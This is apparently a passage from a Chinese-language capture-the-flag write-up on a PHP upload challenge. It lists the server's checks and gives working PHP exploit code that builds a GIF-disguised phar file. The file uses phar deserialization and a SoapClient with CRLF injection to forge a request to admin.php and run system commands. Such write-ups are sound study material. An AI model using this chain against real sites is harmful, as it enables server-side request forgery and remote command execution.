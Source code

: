1. `$_FILES["file"]["type"]`文件类型校验

2. `in_array($extension, $allowedExts)`白名单校验

3. Check类的check函数

   ```php
   class Check{
   
       public $file_name;
   
       function __construct($file_name){
           $this->file_name = $file_name;
       }
   
       function check(){
           $data = file_get_contents($this->file_name);
           if (mb_strpos($data, "<?") !== FALSE) {
               die("&lt;? in contents!");
           }
       }
   }
   ```

   文件内容中不能出现`<?`



#### 思路

1. 访问index上传phar文件，需要改一个后缀
2. 访问func利用phar协议触发反序列化
3. 利用反序列化调用wakeup函数发送soap访问admin.php，执行系统命令。
4. 



#### 准备phar文件

```php
<?php

class File{

    public $file_name;
    public $type;
    public $func = "SoapClient";

    function __construct(){
        $this->file_name = array(null, array('location' => "http://127.0.0.1/admin.php", 'uri' => "c", 'user_agent' => "catcat\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 133\r\n\r\ncmd=ls&admin=1&clazz=ArrayIterator&func1=append&func2=append&func3=append&arg1=1&arg2=1&arg3=1\r\n\r\n\r\n"));
    }

}

$o = new File();
$phar=new Phar('poc.phar');
$phar->startBuffering();
$phar->setStub("GIF89a< ?php __HALT_COMPILER(); ?>");
$phar->setMetadata($o);
$phar->addFromString("foo.txt","bar");
$phar->stopBuffering();
```
